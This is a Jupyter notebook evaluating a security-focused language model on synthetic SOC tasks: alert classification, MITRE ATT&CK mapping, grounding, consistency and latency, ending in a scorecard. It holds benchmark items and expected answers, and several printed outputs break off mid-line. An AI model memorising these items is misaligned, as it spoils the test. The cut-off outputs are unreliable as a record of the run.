classification_accuracy = n_correct / n_total

print(f"Total evaluated: {n_total}")
print(f"Correct        : {n_correct}")
print(f"Incorrect      : {n_total - n_correct}")
print(f"Accuracy       : {classification_accuracy:.1%}\n")
for r in classification_results:
    mark = "OK " if r["classification_correct"] else "ERR"
    print(f"[{mark}] {r['id']:<5} expected={r['scenario']['expected_classification']:<12} predicted={r['predicted_classification']}")

print("\nPer-class breakdown (precision/recall/F1, macro):")
for label in ["BENIGN", "SUSPICIOUS", "MALICIOUS"]:
    tp = sum(1 for r in classification_results if r["predicted_classification"] == label and r["scenario"]["expected_classification"] == label)
    fp = sum(1 for r in classification_results if r["predicted_classification"] == label and r["scenario"]["expected_classification"] != label)
    fn = sum(1 for r in classification_results if r["predicted_classification"] != label and r["scenario"]["expected_classification"] == label)
    n_true = tp + fn
    precision = tp / (tp + fp) if (tp + fp) > 0 else float("nan")
    recall = tp / (tp + fn) if (tp + fn) > 0 else float("nan")
    f1 = 2 * precision * recall / (precision + recall) if (precision + recall) > 0 else float("nan")
    print(f"  {label:<12} n={n_true:<3} precision={precision:.2f}  recall={recall:.2f}  F1={f1:.2f}")

Total evaluated: 15
Correct        : 12
Incorrect      : 3
Accuracy       : 80.0%

[ERR] AC1   expected=MALICIOUS    predicted=SUSPICIOUS
[OK ] AC2   expected=BENIGN       predicted=BENIGN
[OK ] AC3   expected=BENIGN       predicted=BENIGN
[OK ] AC4   expected=SUSPICIOUS   predicted=SUSPICIOUS
[ERR] AC5   expected=MALICIOUS    predicted=SUSPICIOUS
[OK ] SR1   expected=SUSPICIOUS   predicted=SUSPICIOUS
[ERR] SR2   expected=MALICIOUS    predicted=SUSPICIOUS
[OK ] SR3   expected=SUSPICIOUS   predicted=SUSPICIOUS
[OK ] SR4   expected=MALICIOUS    predicted=MALICIOUS
[OK ] SR5   expected=MALICIOUS    predicted=MALICIOUS
[OK ] IS1   expected=MALICIOUS    predicted=MALICIOUS
[OK ] IS2   expected=MALICIOUS    predicted=MALICIOUS
[OK ] IS3   expected=BENIGN       predicted=BENIGN
[OK ] IS4   expected=SUSPICIOUS   predicted=SUSPICIOUS
[OK ] IS5   expected=SUSPICIOUS   predicted=SUSPICIOUS

Per-class breakdown (precision/recall/F1, macro):
  BENIGN       n=3   precision=1.00  recall=1.00  F1=1.00

In [5]:
missed_malicious = [r for r in classification_results if r["scenario"]["expected_classification"] == "MALICIOUS" and not r["classification_correct"]]
n_malicious_total = sum(1 for r in classification_results if r["scenario"]["expected_classification"] == "MALICIOUS")
n_malicious_correct = n_malicious_total - len(missed_malicious)
print(f"MALICIOUS recall: {n_malicious_correct}/{n_malicious_total}")
print("\nThis is not the abstract example above -- these are the actual under-called cases from this run:")
for r in missed_malicious:
    print(f"  {r['id']}: expected MALICIOUS, model said {r['predicted_classification']} -- {r['scenario']['prompt'][:100]}...")

MALICIOUS recall: 4/7

This is not the abstract example above -- these are the actual under-called cases from this run:
  AC1: expected MALICIOUS, model said SUSPICIOUS -- Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: A Linux s...
  AC5: expected MALICIOUS, model said SUSPICIOUS -- Classify the following security event as BENIGN, SUSPICIOUS, or MALICIOUS. Security event: File serv...
  SR2: expected MALICIOUS, model said SUSPICIOUS -- Explain the security significance of the following: workstation LAP-201 sends an outbound connection...


**Why aggregate accuracy can hide dangerous failures.** Imagine 99 low-risk examples classified correctly and exactly 1 critical ransomware example misclassified as benign -- that's 99% accuracy, and it is not a safe system. A single missed critical incident can matter more than a hundred correct routine calls. That's why this section reports per-class precision/recall above rather than stopping at one aggregate number, and why Section 12's failure taxonomy specifically tracks *which direction* each classification error went, not just that an error occurred.

## Section 6 -- MITRE ATT&CK evaluation

Scored for the 5 `mitre_mapping` scenarios, where naming the correct technique(s) is the actual task.

> **Precision** answers: *of the techniques the model predicted, how many were actually supported?*
>
> **Recall** answers: *of the techniques that should have been found, how many did it identify?*

In [6]:
def normalize_techniques(tech_list):
    if not tech_list:
        return set()
    return set(str(t).strip().upper() for t in tech_list if str(t).strip())


def mitre_scores(expected_list, predicted_list):
    expected = normalize_techniques(expected_list)
    predicted = normalize_techniques(predicted_list)
    tp, fp, fn = expected & predicted, predicted - expected, expected - predicted
    precision = 1.0 if not predicted else len(tp) / len(predicted)
    recall = 1.0 if not expected else len(tp) / len(expected)
    f1 = 0.0 if (precision + recall) == 0 else 2 * precision * recall / (precision + recall)
    return {"tp": tp, "fp": fp, "fn": fn, "precision": precision, "recall": recall, "f1": f1}


for r in results:
    predicted_techniques = (r["parsed"] or {}).get("mitre_techniques", []) or []
    r["predicted_techniques"] = predicted_techniques

mitre_results = [r for r in results if r["scenario"]["expected_mitre_techniques"] is not None]
for r in mitre_results:
    r["mitre"] = mitre_scores(r["scenario"]["expected_mitre_techniques"], r["predicted_techniques"])

total_tp = sum(len(r["mitre"]["tp"]) for r in mitre_results)
total_fp = sum(len(r["mitre"]["fp"]) for r in mitre_results)
total_fn = sum(len(r["mitre"]["fn"]) for r in mitre_results)
micro_precision = total_tp / (total_tp + total_fp) if (total_tp + total_fp) > 0 else 1.0
micro_recall = total_tp / (total_tp + total_fn) if (total_tp + total_fn) > 0 else 1.0
micro_f1 = 2 * micro_precision * micro_recall / (micro_precision + micro_recall) if (micro_precision + micro_recall) > 0 else 0.0

print(f"{'ID':<5}{'expected':<28}{'predicted':<40}{'P':>6}{'R':>6}{'F1':>6}")
for r in mitre_results:
    exp = ",".join(sorted(normalize_techniques(r["scenario"]["expected_mitre_techniques"]))) or "(none)"
    pred = ",".join(sorted(normalize_techniques(r["predicted_techniques"]))) or "(none)"
    m = r["mitre"]
    print(f"{r['id']:<5}{exp:<28}{pred:<40}{m['precision']:>6.2f}{m['recall']:>6.2f}{m['f1']:>6.2f}")

print(f"\nMicro-averaged -- Precision: {micro_precision:.2f}  Recall: {micro_recall:.2f}  F1: {micro_f1:.2f}")
print(f"(pooled TP={total_tp}, FP={total_fp}, FN={total_fn})")

print("\nOverprediction table (techniques named that were not expected):")
overpredicting = [r for r in mitre_results if r["mitre"]["fp"]]
for r in overpredicting:
    print(f"  {r['id']}: expected {sorted(normalize_techniques(r['scenario']['expected_mitre_techniques']))}, overpredicted {sorted(r['mitre']['fp'])}")
if not overpredicting:
    print("  (none)")

ID   expected                    predicted                                    P     R    F1
MM1  T1003.001                   CREDENTIAL DUMPING: LSASS MEMORY,T1003.001  0.50  1.00  0.67
MM2  T1078                       T1033,T1069.002,T1078,T1087               0.25  1.00  0.40
MM3  T1027,T1059.001,T1566.001   T1086,T1140,T1218.005                     0.00  0.00  0.00
MM4  T1021.002,T1569.002         T1021,T1053.002,T1570                     0.00  0.00  0.00
MM5  T1068                       T1068,T1078.002                           0.50  1.00  0.67

Micro-averaged -- Precision: 0.21  Recall: 0.38  F1: 0.27
(pooled TP=3, FP=11, FN=5)

Overprediction table (techniques named that were not expected):
  MM1: expected ['T1003.001'], overpredicted ['CREDENTIAL DUMPING: LSASS MEMORY']
  MM2: expected ['T1078'], overpredicted ['T1033', 'T1069.002', 'T1087']
  MM3: expected ['T1027', 'T1059.001', 'T1566.001'], overpredicted ['T1086', 'T1140', 'T1218.005']
  MM4: expected ['T1021.002', 'T1569.002'

**MM2 above is the same "stolen VPN credential" scenario used in notebooks 03 and 04.** In notebook 03's first look, the model correctly named T1078 but also volunteered extra techniques for the follow-on reconnaissance commands; notebook 04's controlled version of the same scenario reproduced that overprediction pattern with concrete false-positive counts. Whether it reproduces a third time, here, is read directly from the table above -- overprediction matters because every extra technique named is a claim an analyst has to verify or dismiss, and a model that reliably over-lists trains analysts to stop trusting its output, the same alert-fatigue dynamic as a noisy SIEM rule.

## Section 7 -- Evidence grounding

A 0/1/2 rubric: **2** = strongly grounded (every specific, checkable claim traces back to the prompt); **1** = partially grounded (a minority of claims are invented, or the response makes no specific checkable claims at all -- vague, but not wrong); **0** = unsupported (specific claims are mostly or entirely invented).

The automated check looks for specific claims about IPs, usernames, timestamps, files, processes, and -- new in this notebook -- **malware family names, threat actor names, and CVE numbers** that appear in the response but not in the original prompt. The golden dataset's `unsupported_findings` field documents what a hallucination would look like for each scenario in plain language, for a human reviewer; the automated score below uses this one consistent entity-based heuristic across all 30 scenarios instead, since reliably auto-matching free-text descriptions would not be trustworthy.

In [7]:
MALWARE_FAMILIES = ["lockbit", "emotet", "cobalt strike", "mimikatz", "trickbot", "ryuk", "wannacry",
                    "conti", "blackcat", "revil", "qakbot", "icedid", "blackbasta"]
THREAT_ACTORS = ["apt28", "apt29", "apt41", "lazarus", "fin7", "sandworm", "fancy bear", "cozy bear",
                 "carbanak", "darkside"]


def flatten_to_text(value):
    # json.dumps, not str() -- str() on a Python list renders single-quoted repr
    # str(list) uses single quotes around each element, which would make a naive quoted-string regex misfire on every
    # list value. This exact bug was caught and fixed in notebook 04.
    if isinstance(value, (dict, list)):
        return json.dumps(value)
    return str(value)


def extract_entities(text):
    text = text or ""
    lower = text.lower()
    return {
        "ip_addresses": set(re.findall(r"\b(?:\d{1,3}\.){3}\d{1,3}\b", text)),
        "usernames": set(re.findall(r"'([a-zA-Z][a-zA-Z0-9_.\-]*)'", text)),
        "files": set(re.findall(r"\b[\w\-.]+\.(?:exe|dll|ps1|bat|dmp|docm|docx|txt|csv|zip|dat)\b", text, re.IGNORECASE)),
        "cves": set(re.findall(r"CVE-\d{4}-\d+", text, re.IGNORECASE)),
        "malware_families": set(m for m in MALWARE_FAMILIES if m in lower),
        "threat_actors": set(a for a in THREAT_ACTORS if a in lower),
    }


def grounding_score(prompt_text, response_text):
    prompt_entities = extract_entities(prompt_text)
    response_entities = extract_entities(response_text)
    invented, total_invented, total_cited = {}, 0, 0
    for category, resp_set in response_entities.items():
        extra = resp_set - prompt_entities[category]
        if extra:
            invented[category] = extra
        total_invented += len(extra)
        total_cited += len(resp_set)
    if total_invented == 0 and total_cited > 0:
        score = 2
    elif total_invented == 0:
        score = 1  # no specific claims either way -- vague, not wrong
    elif total_invented < total_cited:
        score = 1
    else:
        score = 0
    return score, invented


for r in results:
    combined_response = flatten_to_text(r["parsed"]) if r["parsed"] else r["raw_text"]
    score, invented = grounding_score(r["scenario"]["prompt"], combined_response)
    r["grounding_score"] = score
    r["invented_entities"] = invented

avg_grounding = sum(r["grounding_score"] for r in results) / len(results)
n_unsupported = sum(1 for r in results if r["grounding_score"] == 0)
unsupported_rate = n_unsupported / len(results)

print(f"Average grounding score (0-2): {avg_grounding:.2f}")
print(f"Unsupported-claim cases (score 0): {n_unsupported}/{len(results)} ({unsupported_rate:.0%})\n")
for r in results:
    if r["invented_entities"]:
        print(f"  {r['id']} (score={r['grounding_score']}): invented -> {r['invented_entities']}")

Average grounding score (0-2): 1.67
Unsupported-claim cases (score 0): 0/30 (0%)



**Why unsupported facts are especially dangerous in a SOC workflow.** An analyst under time pressure is likely to trust a fluent, confident statement from a tool built specifically for security work. A hallucinated malware family, threat actor, or CVE isn't a stylistic slip the way it might be in a general chatbot -- if it drives a containment decision, a compliance report, or a threat-intel write-up, it actively misdirects an investigation while looking exactly as credible as a correct answer.

## Section 8 -- Completeness

For each scenario, what fraction of the golden dataset's `important_evidence` shows up (by keyword overlap, not exact wording) in the model's `evidence` field, and what fraction of `expected_next_steps` shows up in `recommended_next_steps`. A phrase counts as "hit" if at least half its significant words appear in the response -- deliberately loose, so a correct point made in different words isn't marked wrong.

In [8]:
STOPWORDS = {"the", "a", "an", "of", "to", "in", "on", "for", "and", "or", "with", "from",
             "this", "that", "is", "are", "was", "were", "be", "by", "as", "at", "all"}


def significant_words(phrase):
    words = re.findall(r"[a-zA-Z0-9]+", phrase.lower())
    return [w for w in words if w not in STOPWORDS and len(w) > 2]


def keyword_hit(phrase, text):
    words = significant_words(phrase)
    if not words:
        return False
    text_lower = (text or "").lower()
    return sum(1 for w in words if w in text_lower) / len(words) >= 0.5


def completeness_score(expected_items, response_text):
    if not expected_items:
        return None
    hits = [item for item in expected_items if keyword_hit(item, response_text)]
    return len(hits) / len(expected_items)


for r in results:
    evidence_text = " ".join(str(x) for x in (r["parsed"] or {}).get("evidence", [])) if r["parsed"] else r["raw_text"]
    steps_text = " ".join(str(x) for x in (r["parsed"] or {}).get("recommended_next_steps", [])) if r["parsed"] else r["raw_text"]
    r["evidence_completeness"] = completeness_score(r["scenario"]["important_evidence"], evidence_text)
    r["steps_completeness"] = completeness_score(r["scenario"]["expected_next_steps"], steps_text)

evidence_scores = [r["evidence_completeness"] for r in results if r["evidence_completeness"] is not None]
steps_scores = [r["steps_completeness"] for r in results if r["steps_completeness"] is not None]
avg_evidence_completeness = sum(evidence_scores) / len(evidence_scores)
avg_steps_completeness = sum(steps_scores) / len(steps_scores)

print(f"Average evidence completeness   : {avg_evidence_completeness:.0%} (over {len(evidence_scores)} scenarios)")
print(f"Average next-steps completeness : {avg_steps_completeness:.0%} (over {len(steps_scores)} scenarios, where applicable)")

Average evidence completeness   : 57% (over 30 scenarios)
Average next-steps completeness : 21% (over 25 scenarios, where applicable)


## Section 9 -- Consistency

5 representative scenarios, chosen specifically because they're this dataset's *ambiguous* cases (AC3, MM2, SR3, IS5, IR4) -- exactly where nondeterminism would matter most, since a clean-cut case should be easy to get right the same way every time. Each is run 3 times with the identical generation settings from Section 3.

In [9]:
CONSISTENCY_IDS = ["AC3", "MM2", "SR3", "IS5", "IR4"]
consistency_scenarios = [s for s in SCENARIOS if s["id"] in CONSISTENCY_IDS]

consistency_results = {}
for scenario in consistency_scenarios:
    runs = [query_model(scenario["prompt"]) for _ in range(3)]
    parsed_runs = [run["parsed"] for run in runs]
    classifications = [str((p or {}).get("classification", "")).strip().upper() for p in parsed_runs]
    mitre_sets = [normalize_techniques((p or {}).get("mitre_techniques", [])) for p in parsed_runs]
    confidences = [str((p or {}).get("confidence", "")).strip().lower() for p in parsed_runs]
    consistency_results[scenario["id"]] = {
        "classifications": classifications,
        "mitre_sets": mitre_sets,
        "confidences": confidences,
        "classification_consistent": len(set(classifications)) == 1,
        "mitre_consistent": len(set(frozenset(s) for s in mitre_sets)) == 1,
    }
    print(f"{scenario['id']}: classifications={classifications}  mitre={[sorted(s) for s in mitre_sets]}  confidence={confidences}")

n_classification_consistent = sum(1 for v in consistency_results.values() if v["classification_consistent"])
n_mitre_consistent = sum(1 for v in consistency_results.values() if v["mitre_consistent"])
consistency_rate = (n_classification_consistent + n_mitre_consistent) / (2 * len(consistency_results))
print(f"\nClassification consistent: {n_classification_consistent}/{len(consistency_results)}")
print(f"MITRE mapping consistent : {n_mitre_consistent}/{len(consistency_results)}")
print(f"Overall consistency rate : {consistency_rate:.0%}")

AC3: classifications=['BENIGN', 'BENIGN', 'BENIGN']  mitre=[[], [], []]  confidence=['high', 'high', 'high']


MM2: classifications=['MALICIOUS', 'MALICIOUS', 'MALICIOUS']  mitre=[['T1033', 'T1069.002', 'T1078', 'T1087'], ['T1033', 'T1069', 'T1078', 'T1087'], ['T1033', 'T1069', 'T1078']]  confidence=['high', 'high', 'high']


SR3: classifications=['SUSPICIOUS', 'SUSPICIOUS', 'SUSPICIOUS']  mitre=[['T1078'], ['T1078'], ['T1078']]  confidence=['medium', 'medium', 'medium']


IS5: classifications=['SUSPICIOUS', 'SUSPICIOUS', 'SUSPICIOUS']  mitre=[['N/A'], [], ['N/A']]  confidence=['medium', 'medium', 'medium']


IR4: classifications=['SUSPICIOUS', 'SUSPICIOUS', 'SUSPICIOUS']  mitre=[[], [], []]  confidence=['low', 'low', 'low']

Classification consistent: 5/5
MITRE mapping consistent : 3/5
Overall consistency rate : 80%


Nondeterminism is not automatically bad -- a model that phrases things slightly differently each time is fine. What matters is whether the *conclusion* changes: if the classification or the named techniques flip between identical runs on the same input, that's a material difference in a security conclusion, and it directly affects whether a SOC could ever trust this model's output without a human re-checking every single time, regardless of how good any individual run looked in isolation.

## Section 10 -- Output reliability

"Good reasoning" inside a response that a downstream system can't parse is worthless to that system -- this section measures whether the output is actually consumable, independent of whether its content was correct.

In [10]:
REQUIRED_KEYS = ["classification", "confidence", "evidence", "mitre_techniques", "missing_information", "recommended_next_steps"]

n_valid_json = sum(1 for r in results if r["parsed"] is not None)
valid_json_rate = n_valid_json / len(results)

missing_field_counts = {k: 0 for k in REQUIRED_KEYS}
n_missing_any_field = 0
for r in results:
    if r["parsed"] is None:
        continue
    missing_here = [k for k in REQUIRED_KEYS if k not in r["parsed"]]
    if missing_here:
        n_missing_any_field += 1
        for k in missing_here:
            missing_field_counts[k] += 1

output_validity_rate = sum(1 for r in results if r["parsed"] is not None and not any(k not in r["parsed"] for k in REQUIRED_KEYS)) / len(results)

print(f"Valid JSON rate            : {valid_json_rate:.0%} ({n_valid_json}/{len(results)})")
print(f"Missing-required-field rate: {n_missing_any_field / len(results):.0%} ({n_missing_any_field}/{len(results)} valid-JSON responses missing >=1 key)")
print(f"Parsing failure rate       : {1 - valid_json_rate:.0%}")
print(f"Overall output-validity rate (valid JSON AND all required keys present): {output_validity_rate:.0%}")
if n_missing_any_field:
    print(f"\nMissing-field breakdown: {missing_field_counts}")

Valid JSON rate            : 100% (30/30)
Missing-required-field rate: 0% (0/30 valid-JSON responses missing >=1 key)
Parsing failure rate       : 0%
Overall output-validity rate (valid JSON AND all required keys present): 100%


A production implementation facing anything less than 100% here would reach for standard tools rather than a bespoke framework: schema validation before the response reaches any downstream code, constrained/grammar-forced generation (already attempted via `response_format` above), a retry on parse failure, and an explicit fallback behavior (e.g. "flag for human review") when retries are exhausted -- not a new custom system, just the same reliability patterns used for any unreliable external service.

## Section 11 -- Latency

In [11]:
import numpy as np

latencies = [r["latency_sec"] for r in results]
mean_latency = float(np.mean(latencies))
median_latency = float(np.median(latencies))
p95_latency = float(np.percentile(latencies, 95))

print(f"Mean latency  : {mean_latency:.2f}s")
print(f"Median latency: {median_latency:.2f}s")
print(f"P95 latency   : {p95_latency:.2f}s\n")

print("By category:")
for cat in categories:
    cat_latencies = [r["latency_sec"] for r in results if r["scenario"]["category"] == cat]
    print(f"  {cat:<32} mean={np.mean(cat_latencies):.2f}s  median={np.median(cat_latencies):.2f}s")

print("\nBy difficulty:")
for diff in ["easy", "medium", "hard"]:
    diff_latencies = [r["latency_sec"] for r in results if r["scenario"]["difficulty"] == diff]
    print(f"  {diff:<8} mean={np.mean(diff_latencies):.2f}s  median={np.median(diff_latencies):.2f}s")

Mean latency  : 12.68s
Median latency: 12.53s
P95 latency   : 17.22s

By category:
  alert_classification             mean=14.22s  median=14.48s
  evidence_extraction              mean=11.41s  median=12.27s
  incident_summarization           mean=12.44s  median=12.32s
  investigation_recommendations    mean=12.09s  median=12.05s
  mitre_mapping                    mean=12.31s  median=12.20s
  security_reasoning               mean=13.59s  median=14.13s

By difficulty:
  easy     mean=11.52s  median=11.01s
  medium   mean=12.86s  median=12.79s
  hard     mean=13.04s  median=12.84s


In [12]:
sorted_latencies = sorted(((r["latency_sec"], r["id"]) for r in results), reverse=True)
print("Slowest calls:")
for lat, sid in sorted_latencies[:3]:
    print(f"  {sid}: {lat:.1f}s")
outlier_latency, outlier_id = sorted_latencies[0]
if outlier_latency > 3 * median_latency:
    print(f"\n{outlier_id} ({outlier_latency:.1f}s) is a clear outlier against the {median_latency:.1f}s median -- "
          "it single-handedly pulls the mean and the mitre_mapping/hard-difficulty category means far above "
          "what a typical call actually takes here. Reported honestly rather than smoothed over: this is why "
          "median and p95 are shown alongside the mean above, not instead of it -- a single slow outlier can "
          "distort a mean without saying anything about typical performance.")

Slowest calls:
  SR2: 19.6s
  AC5: 17.8s
  IS2: 16.5s


A model that scores slightly better on the metrics above but takes noticeably longer per call may still be the wrong choice for an interactive SOC workflow, where an analyst is waiting on the response mid-investigation -- latency is a product requirement, not a footnote to quality.

## Section 12 -- Failure taxonomy

In [13]:
from collections import Counter


def tag_failures(r):
    tags = []
    scenario = r["scenario"]
    if r["parsed"] is None:
        tags.append("invalid_structured_output")
        return tags  # nothing else is scoreable without parsed output
    if scenario["expected_classification"] is not None and r["predicted_classification"] != scenario["expected_classification"]:
        tags.append("wrong_classification")
    if scenario["expected_mitre_techniques"] is not None:
        if r["mitre"]["fp"]:
            tags.append("mitre_false_positive")
        if r["mitre"]["fn"]:
            tags.append("mitre_false_negative")
    if r["grounding_score"] == 0:
        tags.append("unsupported_claim")
    evidence_list = r["parsed"].get("evidence", []) or []
    if r["evidence_completeness"] is not None and r["evidence_completeness"] < 0.5:
        tags.append("missed_evidence")
    if len(evidence_list) < 2:
        tags.append("incomplete_reasoning")
    if r["steps_completeness"] is not None and r["steps_completeness"] < 0.34:
        tags.append("poor_next_step")
    return tags


for r in results:
    r["failure_tags"] = tag_failures(r)

for scenario_id, cres in consistency_results.items():
    if not (cres["classification_consistent"] and cres["mitre_consistent"]):
        for r in results:
            if r["id"] == scenario_id:
                r["failure_tags"].append("inconsistent_result")

all_tags = [tag for r in results for tag in r["failure_tags"]]
tag_counts = Counter(all_tags)

FAILURE_TYPES_ORDER = ["wrong_classification", "missed_evidence", "mitre_false_positive", "mitre_false_negative",
                       "unsupported_claim", "incomplete_reasoning", "poor_next_step", "invalid_structured_output", "inconsistent_result"]

print(f"{'Failure type':<28}{'Count':>6}  Scenario IDs")
for ft in FAILURE_TYPES_ORDER:
    ids = [r["id"] for r in results if ft in r["failure_tags"]]
    print(f"{ft:<28}{tag_counts.get(ft, 0):>6}  {ids}")

Failure type                 Count  Scenario IDs
wrong_classification             3  ['AC1', 'AC5', 'SR2']
missed_evidence                  6  ['SR1', 'SR2', 'SR3', 'SR4', 'IR3', 'EE4']
mitre_false_positive             5  ['MM1', 'MM2', 'MM3', 'MM4', 'MM5']
mitre_false_negative             2  ['MM3', 'MM4']
unsupported_claim                0  []
incomplete_reasoning             1  ['EE1']
poor_next_step                  22  ['AC1', 'AC3', 'AC4', 'AC5', 'MM1', 'MM2', 'MM3', 'MM4', 'MM5', 'SR1', 'SR2', 'SR3', 'SR4', 'SR5', 'IS1', 'IS4', 'IS5', 'IR1', 'IR2', 'IR3', 'IR4', 'IR5']
invalid_structured_output        0  []
inconsistent_result              2  ['MM2', 'IS5']




In [14]:
import matplotlib.pyplot as plt

RESULTS_DIR = Path("..") / "results"
RESULTS_DIR.mkdir(exist_ok=True)

fig, ax = plt.subplots(figsize=(11, 5))
labels = FAILURE_TYPES_ORDER
counts = [tag_counts.get(ft, 0) for ft in labels]
ax.bar([l.replace("_", "\n") for l in labels], counts, color="tab:purple")
ax.set_ylabel(f"Number of scenarios (out of {len(results)})")
ax.set_title("Failure type breakdown")
plt.xticks(rotation=20, ha="right")
plt.tight_layout()
# Prefixed with 07_ to avoid overwriting notebook 04's existing results/security_eval_*.png files.
plt.savefig(RESULTS_DIR / "07_security_eval_failure_types.png", dpi=150)
plt.show()

## Section 13 -- Model scorecard

Every number below is copied from the sections above, not recomputed or reinterpreted. No claim about what counts as "production ready" is made -- these are the observed results, full stop.

Metric                        Observed result
-------------------------------------------------------
Classification accuracy       80.0%
MITRE precision               0.21
MITRE recall                  0.38
MITRE F1                      0.27
Avg grounding score (0-2)     1.67
Unsupported-claim rate        0%
Evidence completeness         57%
Output-validity rate          100%
Consistency rate              80%
Median latency                12.53s
P95 latency                   17.22s




In [15]:
scorecard = {
    "Classification accuracy": f"{classification_accuracy:.1%}",
    "MITRE precision": f"{micro_precision:.2f}",
    "MITRE recall": f"{micro_recall:.2f}",
    "MITRE F1": f"{micro_f1:.2f}",
    "Avg grounding score (0-2)": f"{avg_grounding:.2f}",
    "Unsupported-claim rate": f"{unsupported_rate:.0%}",
    "Evidence completeness": f"{avg_evidence_completeness:.0%}",
    "Output-validity rate": f"{output_validity_rate:.0%}",
    "Consistency rate": f"{consistency_rate:.0%}",
    "Median latency": f"{median_latency:.2f}s",
    "P95 latency": f"{p95_latency:.2f}s",
}

print(f"{'Metric':<30}{'Observed result'}")
print("-" * 55)
for metric, value in scorecard.items():
    print(f"{metric:<30}{value}")

fig, ax = plt.subplots(figsize=(9, 5))
ax.axis("off")
table = ax.table(cellText=[[k, v] for k, v in scorecard.items()], colLabels=["Metric", "Observed result"],
                  cellLoc="left", colLoc="left", loc="center")
table.auto_set_font_size(False)
table.set_fontsize(11)
table.scale(1, 1.6)
plt.title("Foundation-Sec Model Scorecard (this run, this dataset)", pad=20)
plt.tight_layout()
plt.savefig(RESULTS_DIR / "07_security_eval_scorecard.png", dpi=150)
plt.show()

## Section 14 -- Product interpretation

**Questions 1-4 are answered directly from this run's data below. Questions 5-8 are methodology questions this experiment demonstrates the need for, not claims specific to this run's numbers.**

In [16]:
print("1. What tasks does the model appear strong at?")
best_category_completeness = max(categories, key=lambda c: np.mean([r["evidence_completeness"] for r in results if r["scenario"]["category"] == c and r["evidence_completeness"] is not None] or [0]))
print(f"   Classification accuracy overall: {classification_accuracy:.1%}. Highest evidence-completeness category: {best_category_completeness}.")
print(f"   Output structure: {output_validity_rate:.0%} of responses were valid, complete JSON -- the model reliably follows the requested schema.")
print()
print("2. What failure modes occurred?")
for ft in FAILURE_TYPES_ORDER:
    c = tag_counts.get(ft, 0)
    if c:
        print(f"   - {ft}: {c} scenario(s)")
print()
print("3. Which failures are relatively low risk?")
print(f"   'incomplete_reasoning' and 'poor_next_step' ({tag_counts.get('incomplete_reasoning',0)} and {tag_counts.get('poor_next_step',0)} cases) -- a terse or")
print("   incomplete response is visibly incomplete to a reviewing analyst, and is unlikely to be acted on without more digging.")
print()
print("4. Which failures could be dangerous in production?")
print(f"   'unsupported_claim' ({tag_counts.get('unsupported_claim',0)} cases) and 'wrong_classification' ({tag_counts.get('wrong_classification',0)} cases) are the")
print("   sharpest risks here: a confidently-stated invented fact or a wrong severity call both look exactly as credible as a correct one,")
print("   unlike an incomplete answer that visibly signals its own limits.")

1. What tasks does the model appear strong at?
   Classification accuracy overall: 80.0%. Highest evidence-completeness category: mitre_mapping.
   Output structure: 100% of responses were valid, complete JSON -- the model reliably follows the requested schema.

2. What failure modes occurred?
   - wrong_classification: 3 scenario(s)
   - missed_evidence: 6 scenario(s)
   - mitre_false_positive: 5 scenario(s)
   - mitre_false_negative: 2 scenario(s)
   - incomplete_reasoning: 1 scenario(s)
   - poor_next_step: 22 scenario(s)
   - inconsistent_result: 2 scenario(s)

3. Which failures are relatively low risk?
   'incomplete_reasoning' and 'poor_next_step' (1 and 22 cases) -- a terse or
   incomplete response is visibly incomplete to a reviewing analyst, and is unlikely to be acted on without more digging.

4. Which failures could be dangerous in production?
   'unsupported_claim' (0 cases) and 'wrong_classification' (3 cases) are the
   sharpest risks here: a confidently-stated invented 

**5. Is one aggregate accuracy metric sufficient?** No -- this notebook's own structure is the argument: classification accuracy, MITRE precision/recall, grounding, completeness, consistency, output validity, and latency each measure something the others cannot see. A model could score well on any one of these and poorly on another, and Section 13's scorecard only means something read as eight numbers together, not one.

**6. What additional evaluation would be required before production?** A golden dataset an order of magnitude larger, reviewed by an actual SOC analyst rather than one person; real (properly authorized, anonymized) historical alerts rather than synthetic ones; a human expert panel specifically reviewing the grounding and next-step-recommendation judgments an automated heuristic can only approximate; and online evaluation against real analyst workflows (Section 16) once offline results look acceptable.

